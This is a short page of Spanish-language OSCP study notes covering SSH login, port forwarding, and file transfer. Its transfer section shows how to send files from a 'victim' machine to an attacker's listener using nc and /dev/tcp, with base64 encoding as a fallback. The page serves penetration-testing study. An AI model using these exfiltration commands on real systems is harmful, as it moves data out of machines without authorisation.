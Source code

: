 # Apuntes-OSCP

## SSH
```bash
 ssh -p22 usuario@host_remoto
```
#### reenvio de puertos
```bash
 ssh -L [PUERTO_LOCAL]:[HOST_REMOTO]:[PUERTO_REMOTO] usuario@host_remoto
```
#### Inicio de sesion con id_rsa
El id_rsa debe tener el siguiente permiso
```bash
 chmod 600 id_rsa
```
```bash
 ssh -i id_rsa usuario@host_remoto
```
### SCP y transferencia de archivos
#### Maneras posibles de pasar archivos
Traer el archivo a mi maquina con scp
```bash
 scp target_user@IP_remota:/ruta/completa/al/archivo .
```
Traer archivos con nc (cuando no dispongo contraseña)
</br>en la mquina victima
```bash
nc 19.10.10.10 9091 < archivo
```
luego en mi maquina
```bash
nc -lvnp 9091 > archivo
```
Cuando no es posible, ej: una BD, entonces
```bash
base64 filename > outputfile.b64
```
Sino tambien
```bash
echo -n 'texto' | base64
```
Luego en mi maquina
```bash
base64 -d encodedfile.b64 > outputfile
```
Otra Alternativa es
```bash
cat file.txt > /dev/tcp/192.168.1.23/4444 # on victim linux
```
```bash
nc -lvp 4444 > file.txt # on Kali
```
